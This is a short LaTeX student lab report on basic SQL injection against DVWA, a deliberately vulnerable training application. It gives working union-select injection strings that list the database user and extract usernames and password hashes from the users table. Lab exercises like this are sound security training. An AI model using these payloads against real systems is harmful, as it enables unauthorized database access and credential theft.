 \documentclass[a4paper,10pt]{article}
\title{Lab-report 6}
\author{Moritz Rupp}
\begin{document}
\maketitle

\begin{abstract}
\begin{center}
Lab 6 report

\end{center}
\tableofcontents
\end{abstract}
\newpage
\section{Exercise 6.1 - Basic SQL Injections}
The goal is to trigger a basic sql injection.\\
SQL injection are possible if database queries are constructed based on user input. If we submit the right string, our inputs can execute sql commands, which can be used to read of the database. 

We start with a simple sql-injection to extract the list of usernames and password hashes. Hence we set the the DVWA security setting to low. \\
First we try around and list database users.\\
\begin{verbatim}
 %' or 0=0 union select null, user() #

\end{verbatim}

\begin{center}
 \includegraphics[scale=0.4]{first.png}
\end{center}
If we slighty modify this command we should also gain the password hashes.
\begin{verbatim}
%' or 0=0 union select first_name, password from users#

or

1' or  '0' = '0' union select first_name, password from users#
#
\end{verbatim}
\end{document}
